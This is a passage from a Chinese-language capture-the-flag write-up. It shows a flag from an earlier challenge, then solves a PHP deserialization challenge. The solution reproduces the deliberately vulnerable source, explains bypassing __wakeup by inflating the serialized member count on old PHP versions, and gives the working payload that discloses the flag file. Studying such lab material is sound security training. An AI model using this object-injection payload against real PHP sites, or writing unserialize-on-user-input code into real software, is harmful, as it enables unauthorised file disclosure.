 ```
flag{Y0u_a2e_S0_G00d!!!!!}
You are Good!All matters have concluded
```



## ez_ez_unserialize

```php
<?php
class X
{
    public $x = __FILE__;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if ($this->x !== __FILE__) {
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
        highlight_file($this->x);
        //flag is in fllllllag.php
    }
}
if (isset($_REQUEST['x'])) {
    @unserialize($_REQUEST['x']);
} else {
    highlight_file(__FILE__);
}
```

代码审计：

基本就是在`__destruct`中输出flag，但是要绕过`__wakeup()`

> PHP5<5.6.25，PHP7 < 7.0.10
>
> __wakeup函数是在php在使用反序列化函数unserialize()时，会自动调用的函数
>
> **只要序列化的中的成员数大于实际成员数，即可绕过**

最终结果：

```
x=O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";}
---->
x=O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";}
```

得到flag
